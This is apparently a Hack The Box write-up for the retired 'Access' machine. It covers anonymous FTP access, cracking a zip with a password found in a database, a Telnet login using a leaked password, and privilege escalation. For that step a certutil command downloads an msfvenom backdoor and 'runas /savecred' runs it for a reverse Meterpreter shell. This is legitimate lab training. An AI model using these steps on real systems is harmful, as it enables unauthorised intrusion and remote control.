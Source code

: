 ![](../img/Access Writeup/1_sJFgnWnPrnZ9zjMnwbSuzg.png)

Hello Guys , I am [**Faisal Husaini**](https://twitter.com/FaisalDFrz) and this is my writeup on Medium for Access machine which has retired. My username on HTB is [\*\*\*“faisalelino”](***https://www.hackthebox.eu/home/users/profile/7404) .

The IP for this box is 10.10.10.98, so let’s get started

#### NMAP Results

![NMAP Results](../img/Access Writeup/1_42CqRlhAyY1ieci0AeS23A.png)

We see that 3 Ports are open , Port 21 , 23 and 80. , I didn’t got much interesting from the Port 80 running http service. So I went to check for Port 21 which is FTPD. Although from Port 80 we came to know that this box is either Windows 7 or Windows Server 2008 R2.

#### Port 21 — FTP

We try to login to FTP using the default ftp command in linux following with the IP of the box. Also using the “anonymous” username login with blank password.

![](../img/Access Writeup/1_xX1BSijeqtHaty-DXVodNA.png)

We successfully logged through the ftp and now let’s see what does it contains.

> We use the “**dir**” command to list files and directories in ftp

![](../img/Access Writeup/1_bWvdYeqnXMRZAYYOLvdWwA.png)

We see two directories , let’s check both of them respectively.

![](../img/Access Writeup/1_wp_h0ztVTcy8rqN3dGNm9w.png)

In the Backup directory, we see a file named backup.mdb , so we get the file using the “**get**” ftp command which downloads the file to our host machine.

> Remember to download the file in binary mode like I did above

Let’s check the contents of the other directory “**Engineer**”

![](../img/Access Writeup/1_pVAcsIV1hHL3VBHt2_uNGA.png)

We got both the files , let’s examine the file.

#### Examining The Files

![](../img/Access Writeup/1_dU1lbXHtocNmY9g_hwYK1w.png)

We see that the **backup.mdb** is a Microsoft Access Database and “Access Control.zip” is a password protected zip file.

So I copied these files to my Windows 10 machine and opened the “Access Control.zip” file using Winrar and saw it is password protected , so I went for the backup.mdb file using Microsoft Access 2007

![backup.mdb](../img/Access Writeup/1_xLKwzfJS7Al0HfkqAoBxQw.png)

We see there was a entry named “auth_user” which contained some username and password.

We used these password to connect through Telnet and all of these entries failed , but when I see the username engineer , I came to remember that there was a Folder named “Engineer” which contained the “Access Control.zip” file , maybe this password is for the zip file , so we used this password and bingo it was the password for the zip file.

The Zip File contained a file named “Access Control.pst”, which is a Outlook file. So I opened it through a PST File Viewer on Windows and see an email like below.

![](../img/Access Writeup/1_ZfO_hP6Hx5zGF8tli0xbng.png)

It says the password for the “security” account has been changed to “**4Cc3ssC0ntr0ller**”. Let’s try these credentials to connect through the Telnet as from the NMAP Scan we saw Port 23 for Telnet was Open.

#### Connecting Through Telnet

We connect to Telnet using the “**telnet**” command on Linux

![](../img/Access Writeup/1_64fakIfcdsm1LDRVzugf2g.png)

Bingo!!! We got connected as “**security**” user , let’s get the user flag.

**User Flag**

The user flag on Windows boxes on HTB is usually stored in the Desktop folder of the user.

![User Flag](../img/Access Writeup/1_IZnJVbfsy_wluah47VcmgQ.png)

Here is the User Flag , now we go for the privelege escalation.

#### Privelege Escalation

So as we are on the box , we try some commands on it to see what we get , first we check whether the box has any **_Stored Credentials_**

> We use the command “cmdkey /list” for checking it

![](../img/Access Writeup/1_nsOYLWwQBI0rpT4NLbtCSA.png)

We see that the Administrator account has a saved credentials on this machine. After searching on google about how to use , we came to know about the “**_runas_**” command.

From this command , we can run any program as the Administrator account , so let’s create a backdoor from **msfvenom **and then transfer it on the box.

![](../img/Access Writeup/1_LZlYEgA3qMr6aaSgvSWYqg.png)

We created our backdoor named as “backdoor.exe” , now we will transfer this to the Windows box.

While I was trying powershell to get this file on the box. I was facing alot of problems , so I used “**certutil**” to transfer the file.

> Command Used → **certutil -urlcache -split -f <URL> <OUTPUT>**

![](../img/Access Writeup/1_eEsfp8AFpcGD3u0OBFC9nA.png)

We see that the backdoor was successfully uploaded to the box as **backdoor.exe** and we also confirmed that by using **dir** command.

Now we trigger this backdoor as Administrator using the savecreds on this box and also with the “**runas**” command. But first we setup our listener on **msfconsole**.

![](../img/Access Writeup/1_arWg_QrefV-Brbzq0lfT5A.png)

All set with listener , now we use “runas” to run the backdoor.exe program as Administrator and get back reverse shell.

> Command Used → **runas /savecred /noprofile /user:ACCESS\Administrator backdoor.exe**

![](../img/Access Writeup/1_pGouUiXJKuFJL6GpixKcrQ.png)

As soon as we run the command on the box , we get a meterpreter shell back , let’s now dig into it.

![](../img/Access Writeup/1_aYFzUV6aFErE7DlJjetW9g.png)

We see that now we have access to the administrator account.

Let’s now get the root flag , which is usually located on the Desktop folder of any particular user on Windows boxes in HTB.

![](../img/Access Writeup/1_uNlLsGiY-w9BMneFCaKyQA.png)

Bingo , we got the root flag.

#### **Some Interesting Stuff**

As you saw we got the root flag , however , there was a bit tricky thing on this box , let me show you.

We go back to our meterpreter and get NT Authority\System using the meterpreter “**getsystem**” command and then try to get the flag.

![](../img/Access Writeup/1_2zzdFdeW2BRgKlrCQ7Rhrg.png)

As you can see that now we are NT Authority\System using the getsystem command on meterpreter. Now let’s try to read the root flag.

![](../img/Access Writeup/1_1JZ48HEFEJZpiHLLm6ehdA.png)

As you can see that it returns Access is denied , even though we have high privileges. As the root flag had ownership of the Administrator account , we couldn’t read it as NT Authority\System.

P.S → I was not able to read the root flag as ACCESS\Administrator too at the beginning , then after resetting the box , it was fine.

#### Vulnerabilities Used To Solve This Box

Low Level Priveleges → Telnet Password Leakage in the Access File which we got from FTP using anonymous login

Admin Level Priveleges → Stored Credentials

# References

> [**Runas - Run under a different user account - Windows CMD - SS64.com**](https://ss64.com/nt/runas.html)
>
> <small>Syntax RUNAS [ [/noprofile | /profile][/env] [/savecred | /netonly] ] / user: UserName program RUNAS [ [/noprofile | /profile][/env] [/savecred] ] / smartcard [/user: UserName] program Display the trust levels that can be used: RUNAS/showtrustlevels Run a program at a given TrustLevel: RUNAS / trustlevel: TrustLevel program Key /noprofile Do not load the user's profile.</small>

> [**certutil**](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)
>
> <small>Certutil.exe is a command-line program that is installed as part of Certificate Services. You can use Certutil.exe to dump and display certification authority (CA) configuration information, configure Certificate Services, backup and restore CA components, and verify certificates, key pairs, and certificate chains.</small>